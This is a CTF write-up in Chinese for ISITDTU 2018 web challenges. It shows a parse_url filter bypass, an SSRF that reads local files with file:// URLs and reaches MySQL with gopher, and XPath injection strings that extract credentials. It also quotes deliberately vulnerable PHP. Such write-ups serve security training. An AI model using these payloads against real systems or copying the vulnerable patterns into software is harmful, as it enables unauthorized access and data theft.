 ```yaml
---
title: ISITDTU-CTF
tags: ctf
SEO_title: ISICTF 2018 writeup
abbrlink: 6549
date: 2018-07-30 11:37:21
---
```


## Web

### lz

代码审计

```php
<?php 

include "config.php"; 
$number1 = rand(1,100000000000000); 
$number2 = rand(1,100000000000); 
$number3 = rand(1,100000000); 
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY); 
if (preg_match("/_/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/0/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/\w+/i", $url))  
{ 
    die("..."); 
}     
if(isset($_GET['_']) && !empty($_GET['_'])) 
{ 
    $control = $_GET['_'];         
    if(!in_array($control, array(0,$number1))) 
    { 
        die("fail1"); 
    } 
    if(!in_array($control, array(0,$number2))) 
    { 
        die("fail2"); 
    } 
    if(!in_array($control, array(0,$number3))) 
    { 
        die("fail3"); 
    } 
    echo $flag; 
} 
show_source(__FILE__); 
```

```
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY);
```

由于这里在进行parse_url操作之前，先进行了一次`urldecode`操作，所以可以编码*#* 从而绕过parse_url检测。

payload:

```
http://35.185.178.212/?%23&_=a

php > var_dump(parse_url(urldecode("%23&_=a")),PHP_URL_QUERY);
array(1) {                                                    
  ["fragment"]=>                                              
  string(4) "&_=a"                                            
}                                                             
int(6)
```

在特定情况下也可以使用如下payload:

```
http://35.185.178.212///?_=a
```

测试如下:

```
php > var_dump(parse_url(urldecode("//?_=a")),PHP_URL_QUERY);
bool(false)
int(6)
php > var_dump(parse_url(urldecode("//a?_=a")),PHP_URL_QUERY);
array(2) {
  ["host"]=>
  string(1) "a"
  ["query"]=>
  string(3) "_=a"
}
int(6)
php > var_dump(parse_url(urldecode("//a/?_=a")),PHP_URL_QUERY);
array(3) {
  ["host"]=>
  string(1) "a"
  ["path"]=>
  string(1) "/"
  ["query"]=>
  string(3) "_=a"
}
int(6)
```

### Friss

获取index.php

> curl http://35.190.142.60/index.php?debug=1

index.php

```php
<?php 
include_once "config.php"; 
if (isset($_POST['url'])&&!empty($_POST['url'])) 
{ 
    $url = $_POST['url']; 
    $content_url = getUrlContent($url); 
} 
else 
{ 
    $content_url = ""; 
} 
if(isset($_GET['debug'])) 
{ 
    show_source(__FILE__); 
} 


?> 

<form action="index.php" method="POST"> 
<input name="url" type="text"> 
<input type="submit" value="CURL"> 
</form> 


<?php  

echo $content_url; 
?> 
```

获取config.php

> curl --data "url=file://localhost/var/www/html/config.php" http://35.190.142.60/index.php

config.php

```php
<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
        $dbinit = "create table if not exists flag(secret varchar(100));";
        if(mysqli_query($conn,$dbinit)) return 1;
        else return 0;
}

function safe($url)
{
        $tmpurl = parse_url($url, PHP_URL_HOST);
        if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
        {
                var_dump($tmpurl);
                die("<h1>Only access to localhost</h1>");
        }
        return $url;
}

function getUrlContent($url){
        $url = safe($url);
        $url = escapeshellarg($url);
        $pl = "curl ".$url;
        echo $pl;
        $content = shell_exec($pl);
        return $content;
}
initdb($conn);
?>
```

登录数据库

> mysql -h 127.0.0.1 -u ssrf_user 

ssrf操作: 利用gopher协议查询数据库。

### Access  Box

要点：xpath注入。

参考文章：https://www.cnblogs.com/bmjoker/p/8861927.html

1. 提取父节点名字

   ```
   'or substring(name(parent::*[position()=1]),1,1)='a
   ```

    结果如下：

   ![](/assets/isictf/TIM截图20180804151333.png)

   可以发现第一个字母为`u`。最终，可以得到父节点名字为`user`。

2. 探测子节点

   探测第一个user节点下第二个字段的名字。

   ```
   'or substring(name(//user[1]/*[2]),1,1)='u' or 'a'='a
   ```

   ![](/assets/isictf/TIM截图20180804153803.png)

3. 探测子节点的值

   探测第一个user节点下第1个字段的值

   ```
   'or substring(//user[1]/*[2],1,1)='u' or 'a'='a
   或者:
   'or substring(//user[1]/*[1]/text(),1,1)='F&password=1
   ```

   结果:

   ![](/assets/isictf/TIM截图20180804153002.png)

   最终得到账号：

   ```
   Adm1n
   Ez_t0_gu3ss_PaSSw0rd
   ```

## pwn

https://github.com/chung96vn/challenges